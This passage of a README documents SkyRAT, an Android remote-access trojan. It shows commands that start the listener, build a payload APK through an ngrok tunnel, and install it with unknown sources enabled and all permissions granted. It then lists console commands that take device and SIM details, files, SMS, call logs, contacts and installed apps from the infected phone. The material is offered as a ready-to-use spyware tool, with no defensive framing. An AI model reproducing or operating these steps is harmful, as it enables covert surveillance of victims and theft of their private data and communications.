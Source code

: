 #### Local Server
```bash
# Start server for local connections
python3 skyrat.py --shell -i 192.168.1.100 -p 8000
```

#### External Server with Ngrok
```bash
# Server will start automatically after ngrok build
python3 skyrat.py --build --ngrok -p 8000 -o tunnel.apk
```

## 📱 APK Installation

### Method 1: ADB Install
```bash
adb install skyrat.apk
```

### Method 2: Manual Install
1. Transfer APK to device
2. Enable "Install from Unknown Sources"
3. Install the APK
4. Grant all requested permissions

## 🔧 Usage

### Command Interface
Once connected, you can use various commands:

#### Device Information
```bash
SkyRAT:/> deviceInfo        # Complete device information
SkyRAT:/> getIP             # Device IP address
SkyRAT:/> getSimDetails     # SIM card information
SkyRAT:/> sysinfo           # System information
```

#### File Operations
```bash
SkyRAT:/> ls /sdcard/       # List directory contents
SkyRAT:/> download /sdcard/photo.jpg  # Download file
SkyRAT:/> upload localfile.txt        # Upload file
SkyRAT:/> delete /sdcard/unwanted.txt # Delete file
```

#### Data Extraction
```bash
SkyRAT:/> getSMS inbox      # Get inbox SMS
SkyRAT:/> getCallLogs       # Get call history
SkyRAT:/> getContacts       # Get contact list
SkyRAT:/> getApps           # Get installed apps
```

